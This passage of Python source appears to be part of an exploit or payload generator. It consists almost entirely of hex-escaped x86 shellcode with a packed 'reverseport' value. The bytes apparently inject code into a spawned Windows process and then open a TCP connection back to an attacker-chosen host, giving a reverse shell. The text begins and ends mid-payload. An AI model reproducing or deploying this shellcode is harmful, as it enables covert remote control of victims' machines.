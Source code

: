 ```python
'\x08\xFB\xFF\xFF\x73\x65\x64\x20\xC7\x85\x0C\xFB\xFF\xFF\x46\x69'+\
'\x6C\x65\xC7\x85\x10\xFB\xFF\xFF\x73\x5C\x63\x2E\xC7\x85\x14\xFB'+\
'\xFF\xFF\x65\x78\x65\x00\xC7\x85\xD0\xFA\xFF\xFF'+struct.pack('i',reverseport)+\
'\xE9\x3E\x04\x00\x00\x5F\x89\xBD\xB4\xFA\xFF\xFF\xE8\x4C\x04\x00'+\
'\x00\x89\x85\x24\xFA\xFF\xFF\x68\x53\xC0\x49\x9C\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\x5D\x04\x00\x00\x59\x59\x89\x85\x28\xFA\xFF\xFF\x68'+\
'\x5A\xC1\xCB\xC2\xFF\xB5\x24\xFA\xFF\xFF\xE8\x45\x04\x00\x00\x59'+\
'\x59\x89\x85\x2C\xFA\xFF\xFF\x68\x1C\xC9\x05\xBA\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\x2D\x04\x00\x00\x59\x59\x89\x85\x30\xFA\xFF\xFF\x68'+\
'\x54\x34\x4F\xA2\xFF\xB5\x24\xFA\xFF\xFF\xE8\x15\x04\x00\x00\x59'+\
'\x59\x89\x85\x34\xFA\xFF\xFF\x68\x12\x75\x1D\x45\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\xFD\x03\x00\x00\x59\x59\x89\x85\x38\xFA\xFF\xFF\x68'+\
'\xE9\x65\x73\x1B\xFF\xB5\x24\xFA\xFF\xFF\xE8\xE5\x03\x00\x00\x59'+\
'\x59\x89\x85\x3C\xFA\xFF\xFF\x68\x3A\xFD\xFB\x1E\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\xCD\x03\x00\x00\x59\x59\x89\x85\x40\xFA\xFF\xFF\x68'+\
'\xBD\x50\xD7\x2D\xFF\xB5\x24\xFA\xFF\xFF\xE8\xB5\x03\x00\x00\x59'+\
'\x59\x89\x85\x44\xFA\xFF\xFF\x68\xEF\x60\x08\xE7\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\x9D\x03\x00\x00\x59\x59\x89\x85\x48\xFA\xFF\xFF\x68'+\
'\x83\x94\x7B\x10\xFF\xB5\x24\xFA\xFF\xFF\xE8\x85\x03\x00\x00\x59'+\
'\x59\x89\x85\x4C\xFA\xFF\xFF\x68\x49\x17\x55\xC0\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\x6D\x03\x00\x00\x59\x59\x89\x85\x50\xFA\xFF\xFF\x68'+\
'\xD9\xE5\x1A\x06\xFF\xB5\x24\xFA\xFF\xFF\xE8\x55\x03\x00\x00\x59'+\
'\x59\x89\x85\x54\xFA\xFF\xFF\x8D\x85\xC8\xFC\xFF\xFF\x50\xFF\x95'+\
'\x28\xFA\xFF\xFF\x89\x85\x1C\xFD\xFF\xFF\x83\xBD\x1C\xFD\xFF\xFF'+\
'\x00\x0F\x84\x39\x01\x00\x00\x83\xA5\xD4\xFA\xFF\xFF\x00\xEB\x0D'+\
'\x8B\x85\xD4\xFA\xFF\xFF\x40\x89\x85\xD4\xFA\xFF\xFF\x83\xBD\xD4'+\
'\xFA\xFF\xFF\x44\x73\x10\x8B\x85\xD4\xFA\xFF\xFF\x80\xA4\x05\x64'+\
'\xFA\xFF\xFF\x00\xEB\xDA\x83\xA5\xD4\xFA\xFF\xFF\x00\xEB\x0D\x8B'+\
'\x85\xD4\xFA\xFF\xFF\x40\x89\x85\xD4\xFA\xFF\xFF\x83\xBD\xD4\xFA'+\
'\xFF\xFF\x10\x73\x10\x8B\x85\xD4\xFA\xFF\xFF\x80\xA4\x05\x20\xFD'+\
'\xFF\xFF\x00\xEB\xDA\x8D\x85\x20\xFD\xFF\xFF\x50\x8D\x85\x64\xFA'+\
'\xFF\xFF\x50\x6A\x00\x6A\x00\x6A\x04\x6A\x00\x6A\x00\x6A\x00\x6A'+\
'\x00\x8D\x85\x18\xFB\xFF\xFF\x50\xFF\x95\x34\xFA\xFF\xFF\xFF\xB5'+\
'\x24\xFD\xFF\xFF\xFF\x95\x3C\xFA\xFF\xFF\x68\xE8\x03\x00\x00\xFF'+\
'\x95\x54\xFA\xFF\xFF\xFF\xB5\x24\xFD\xFF\xFF\xFF\x95\x40\xFA\xFF'+\
'\xFF\xC7\x85\x30\xFD\xFF\xFF\x01\x00\x01\x00\x8D\x85\x30\xFD\xFF'+\
'\xFF\x50\xFF\xB5\x24\xFD\xFF\xFF\xFF\x95\x44\xFA\xFF\xFF\x6A\x40'+\
'\x68\x00\x10\x00\x00\xFF\x75\xFC\x6A\x00\xFF\xB5\x20\xFD\xFF\xFF'+\
'\xFF\x95\x48\xFA\xFF\xFF\x89\x85\x10\xFD\xFF\xFF\x6A\x00\xFF\x75'+\
'\xFC\xFF\xB5\xE4\xFA\xFF\xFF\xFF\xB5\x10\xFD\xFF\xFF\xFF\xB5\x20'+\
'\xFD\xFF\xFF\xFF\x95\x4C\xFA\xFF\xFF\x8B\x85\x10\xFD\xFF\xFF\x89'+\
'\x85\xE8\xFD\xFF\xFF\xC7\x85\x30\xFD\xFF\xFF\x01\x00\x01\x00\x8D'+\
'\x85\x30\xFD\xFF\xFF\x50\xFF\xB5\x24\xFD\xFF\xFF\xFF\x95\x50\xFA'+\
'\xFF\xFF\xFF\xB5\x24\xFD\xFF\xFF\xFF\x95\x3C\xFA\xFF\xFF\xEB\x1E'+\
'\x6A\x00\x8D\x85\xE8\xFA\xFF\xFF\x50\x8D\x85\xF4\xFC\xFF\xFF\x50'+\
'\xFF\x95\x30\xFA\xFF\xFF\x6A\x01\xFF\x95\x38\xFA\xFF\xFF\x68\x70'+\
'\x17\x00\x00\xFF\x95\x54\xFA\xFF\xFF\x8D\x85\xD8\xFA\xFF\xFF\x50'+\
'\xFF\xB5\x1C\xFD\xFF\xFF\xFF\x95\x2C\xFA\xFF\xFF\x89\x85\xBC\xFA'+\
'\xFF\xFF\x8D\x85\x58\xFA\xFF\xFF\x50\xFF\xB5\x1C\xFD\xFF\xFF\xFF'+\
'\x95\x2C\xFA\xFF\xFF\x89\x85\xC0\xFA\xFF\xFF\x8D\x85\xE8\xFC\xFF'+\
'\xFF\x50\xFF\xB5\x1C\xFD\xFF\xFF\xFF\x95\x2C\xFA\xFF\xFF\x89\x85'+\
'\xC4\xFA\xFF\xFF\x8D\x85\xA8\xFA\xFF\xFF\x50\xFF\xB5\x1C\xFD\xFF'+\
'\xFF\xFF\x95\x2C\xFA\xFF\xFF\x89\x85\xC8\xFA\xFF\xFF\x8D\x85\x14'+\
'\xFD\xFF\xFF\x50\xFF\xB5\x1C\xFD\xFF\xFF\xFF\x95\x2C\xFA\xFF\xFF'+\
'\x89\x85\xCC\xFA\xFF\xFF\x8D\x85\x38\xFB\xFF\xFF\x50\x68\x02\x02'+\
'\x00\x00\xFF\x95\xBC\xFA\xFF\xFF\x6A\x00\x6A\x00\x6A\x00\x6A\x06'+\
'\x6A\x01\x6A\x02\xFF\x95\xC0\xFA\xFF\xFF\x89\x85\xD4\xFC\xFF\xFF'+\
'\x66\xC7\x85\xD8\xFC\xFF\xFF\x02\x00\xFF\xB5\xD0\xFA\xFF\xFF\xFF'+\
'\x95\xCC\xFA\xFF\xFF\x66\x89\x85\xDA\xFC\xFF\xFF\xFF\xB5\xB4\xFA'+\
'\xFF\xFF\xFF\x95\xC8\xFA\xFF\xFF\x89\x85\xDC\xFC\xFF\xFF\x6A\x00'+\
'\x6A\x00\x6A\x00\x6A\x00\x6A\x10\x8D\x85\xD8\xFC\xFF\xFF\x50\xFF'+\
'\xB5\xD4\xFC\xFF\xFF\xFF\x95\xC4\xFA\xFF\xFF\x83\xA5\xD4\xFA\xFF'+\
'\xFF\x00\xEB\x0D\x8B\x85\xD4\xFA\xFF\xFF\x40\x89\x85\xD4\xFA\xFF'+\
```